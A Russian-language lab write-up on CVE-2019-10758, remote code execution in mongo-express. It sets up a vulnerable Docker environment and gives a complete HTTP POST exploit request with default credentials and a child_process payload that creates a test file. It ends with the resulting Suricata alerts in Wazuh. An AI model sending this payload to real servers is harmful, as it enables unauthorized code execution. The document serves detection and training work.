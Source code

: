 # CVE-2019-10758

Mongo-express до версии 0.54.0 уязвим для удаленного выполнения кода через конечные точки, использующие метод toBSON. Если злоумышленник может успешно войти в систему или целевой сервер не изменил пароль учетной записи по умолчанию (admin:pass), он может выполнить произвольный код node.js.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d 
```

После запуска по адресу http://ваш-ip:8081 будет доступна веб-страница mongo-express

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости отправьте следующий POST-запрос с полезной нагрузкой

```
POST /checkValid HTTP/1.1
Host: ваш-ip:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 128

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В результате был создан файл /tmp/success

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
